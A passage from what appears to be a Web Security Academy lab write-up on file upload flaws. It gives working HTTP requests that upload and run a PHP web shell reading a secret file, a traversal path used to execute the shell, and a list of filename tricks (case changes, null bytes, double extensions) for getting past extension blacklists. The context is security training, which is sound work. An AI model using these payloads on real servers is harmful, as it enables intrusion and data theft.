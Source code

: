 Notice that directory traversal payload is not removed. We simply make a get request to the upload resource now in order to execute it.


```http
GET /files/avatars/../exploit.php HTTP/1.1
Host: 0a28009e040de909800f26cf001400fa.web-security-academy.net
Cookie: session=YN31gop1B8LZHC9sVp4dOrbxmgqdexsw
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: image/avif,image/webp,image/png,image/svg+xml,image/*;q=0.8,*/*;q=0.5
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a28009e040de909800f26cf001400fa.web-security-academy.net/my-account
Sec-Fetch-Dest: image
Sec-Fetch-Mode: no-cors
Sec-Fetch-Site: same-origin
Priority: u=5, i
Te: trailers
Connection: keep-alive

--- 

HTTP/1.1 200 OK
Date: Tue, 13 Aug 2024 06:33:59 GMT
Server: Apache/2.4.41 (Ubuntu)
Keep-Alive: timeout=5, max=100
Connection: close
Content-Type: text/html; charset=UTF-8
X-Frame-Options: SAMEORIGIN
Content-Length: 32

z73E03eA1kX2ETP9SPXvuIdm0gL6pSuw
```



#### Web shell upload via obfuscated file extension
We can bypass blacklists by the following methods
- changing filename to `exploit.pHp`
- `exploit.php.jpg`
- `exploit.php.`
- `exploit%2Ephp`
- `exploit.asp;.jpg`
- `exploit.asp%00.jpg`
- `exploit.p.phphp`

```http

-----------------------------218897616138370763250693900
Content-Disposition: form-data; name="avatar"; filename="exploit.php%00.jpg"
Content-Type: text/php

<?php echo file_get_contents('/home/carlos/secret'); ?>
-----------------------------218897616138370763250693900
Content-Disposition: form-data; name="user"

wiener
-----------------------------218897616138370763250693900
Content-Disposition: form-data; name="csrf"

vOC2b4AvQ58NXDAOVIvMJJAONXV7JOL8
-----------------------------218897616138370763250693900--


----

```